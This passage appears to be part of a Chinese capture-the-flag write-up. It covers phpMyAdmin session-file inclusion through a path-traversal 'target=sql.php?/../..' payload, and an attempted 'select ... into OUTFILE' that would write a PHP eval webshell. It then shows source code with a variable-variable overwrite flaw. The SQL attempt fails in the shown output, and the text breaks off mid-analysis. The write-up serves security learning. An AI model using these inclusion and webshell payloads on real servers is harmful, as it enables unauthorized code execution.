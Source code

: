 我们还可进行session包含

> 在phpMyAdmin中执行`select "<?php phpinfo();?>"`语句
>  由于php的**session机制**，这条语句会写入服务器对应的session文件中
>  在浏览器中查找phpMyAdmin的**cookie值**
>  利用文件包含漏洞执行这个session文件，从而执行phpinfo()

payload

session保存的路径一般是`/tmp/sess_xxx`，需要看phpinfo中的session.save_path配置项

```
target=sql.php?/../../../../../../var/lib/php/sessions/sess_779hnmnumfm8vtjll0nc0ui8lj
```

当然 我们也可以写进一句话木马

尝试

```
select "<?php eval($_POST['hacker']);?>" into OUTFILE "/var/www/html/hacker.php"
```

这里想利用sql写入文件的漏洞，发现利用不成功

```
错误
SQL 查询： 文档
select "<?php eval($_POST['hacker']);?>" into OUTFILE "/var/www/html/hacker.php"
MySQL 返回： 文档
#1045 - Access denied for user 'test'@'%' (using password: YES)
```





利用dirseaerch

![image-20240217225409804](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240217225409804.png)

利用githack获取源码

![image-20240217225501319](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240217225501319.png)

```php
<?php

include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}

```